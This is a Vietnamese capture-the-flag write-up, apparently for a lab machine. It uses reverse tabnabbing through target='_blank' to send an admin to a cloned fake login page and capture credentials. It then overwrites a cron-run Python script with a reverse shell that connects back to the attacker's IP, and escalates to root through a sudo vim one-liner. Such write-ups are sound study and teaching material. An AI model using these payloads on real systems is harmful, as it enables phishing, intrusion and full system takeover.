


## Thu thập thông tin

### Nmap scan

Thực hiện scan port, mình phát hiện 2 port đang mở là `ssh` và `http`.

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) # [!code highlight:1]
| ssh-hostkey: 
|   3072 b4:7c:88:fd:ec:42:b4:a3:7f:16:19:bc:b1:5d:01:ca (RSA)
|   256 50:75:65:92:55:06:06:5e:00:8d:19:5b:e9:f0:15:72 (ECDSA)
|_  256 10:cc:c8:0f:99:0c:b2:29:03:e2:6d:a1:2c:69:89:b8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu)) # [!code highlight:1]
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set # [!code highlight:1]
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster scan

Dùng công cụ `gobuster` mình còn tìm ra được `/admin` nhưng không có quyền truy cập.

```shell
/admin                (Status: 301) [Size: 314] [--> http://10.201.102.54/admin/]
```

Nhưng bên trong `/admin` mình phát hiện một trang `login` dành cho `admin`.

```shell
/login.php            (Status: 200) [Size: 1158]
```

### Lỗ hổng target trên thẻ a



Truy cập vào website, mình được chuyển tới trang `login` của người dùng.


Mình đăng ký tài khoản và vào được một trang nếu mình nhập `url` và `submit`, nó sẽ xuất hiện một thẻ `a` chuyển hướng đến url đó.


Trang này còn nói rằng `Tất cả các link đều được review bởi admin, người dựng lên website này!`

Có một thông tin nho nhỏ mà thử thách này đưa ra.

> To hack into this machine, you must look at the source and focus on the target.

Nhìn kỹ vào mã nguồn thì `target='_blank'` chính là vấn đề.


Đây là thứ đã gây ra nhiều vụ lừa (phishing) bằng cách ấn vào link và chuyển hướng đến trang giả mạo.

Cụ thể kỹ thuật này sử dụng `window.opener.location = '<link web giả mạo>';`, khi trang đích chứa js này nó sẽ chuyển hướng trang gốc (cụ thể ở đây là trang chứa `target='_blank'`) sang link web giả mạo.

## Flag 1

### Truy cập người dùng daniel

Từ các thông tin thu thập được, mình copy source trang login của admin lúc nãy tìm được nhằm mục đích host một trang login giả mạo và lừa admin đăng nhập vào đây để lấy thông tin đăng nhập.

```html title="login.html"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

Mình host thêm một trang để lừa admin bấm vào đây để chuyển hướng đến trang `login.html`.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Just...</title>
</head>

<body>
    Just nothing...
</body>
<script>window.opener.location = 'http://10.17.67.204:8000/login.html';</script>

</html>
```

Khi mình `submit` url `http://10.17.67.204/macilious.html`

Nếu admin truy cập vào url này, họ sẽ được chuyển tới trang chứa mã javascript của mình.



Và trang gốc của họ sẽ chuyển thành trang đăng nhập admin.


Đồng thời mình cũng bắt các gói tin trên mạng này, khi admin chỉ nghĩ vì một lý do nào đó mà họ bị đăng xuất nên họ thực hiện đăng nhập lại thì mình đã bắt được gói tin chứa thông tin đăng nhập.


Dùng thông tin đăng nhập này SSH vào người dùng `daniel` và mình tìm thấy flag tại thư mục `home` của người dùng `adrian` nhưng không có quyền truy cập.


Mình có quyền sửa file `query.py` vì thuộc group `administrators` và file này có chức năng kiểm tra trạng thái website và ghi vào file `site_status.txt`.

```python
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

Dựa vào nội dung file `site_status.txt` thì đây là một `crontab` được thực hiện mỗi 1 phút


### Truy cập người dùng adrian và flag

Từ đó mình có thể dựa vào file này để mở một `reverse shell`.

Mình thay đổi nội dung file như sau:

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.17.67.204",7304))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

Sau đó mình mở `netcat` listener tại port `7304`, đợi 1 phút để máy thực thi file kết nối và mình đã đọc được flag.


## Flag 2

Mình `stabilizing` shell để linh hoạt hơn.


### Sudo Misconfiguration (Vim)

Kiểm tra với lệnh `sudo -l` mình thấy người dùng này có thể sử dụng `vim` với quyền sudo không cần mật khẩu.


Để khai thác, tại [gtfobins](https://gtfobins.github.io/gtfobins/vim/) có hướng dẫn có thể dùng `vim` để thực thi code `python`.

### Truy cập người dùng root và flag

Với lệnh `vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` mình đã có thể leo thang đặc quyền lên `root` và tìm được flag tại thư mục `/root`.

